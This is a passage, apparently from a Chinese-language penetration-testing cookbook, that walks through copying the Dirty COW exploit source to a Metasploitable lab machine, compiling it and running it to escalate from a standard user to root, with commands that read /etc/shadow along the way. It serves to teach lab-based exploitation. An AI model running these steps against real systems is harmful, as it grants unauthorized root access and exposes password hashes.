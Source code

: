 1.  现在我们将把 C 代码发送到我们的 Metasploitable 机器进行编译。

我将使用之前在 *远程 Linux 提权* 配方中创建的相同用户名和密码。

```
cd <enter>
scp ./dirty.c user7@192.168.56.105:dirty.c <enter>
password <enter>
```

1.  从你的 Kali 虚拟机打开一个 SSH 会话到 Metasploit 虚拟机，以标准用户身份登录：

```
ssh user7@192.168.56.105 <enter>
password <enter>
```

1.  让我们编译新的漏洞利用代码：

```
gcc -pthread dirty.c -o dirty -lcrypt <enter>
```

1.  现在我们来看看在启动漏洞利用之前的状态：

```
whoami <enter>
id <enter>
cat /etc/shadow <enter>
sudo /etc/shadow <enter>
password <enter>
```

1.  你会注意到，我是一个标准用户，没有 root 权限，也不是`sudo`用户：

![](img/769e178d-ad15-449f-b87d-a61f05c21ba6.png)Metasploitable 机器输出

1.  现在我们来运行`dirtycow`漏洞：

```
./dirty <enter>
dirtycow <enter>
```
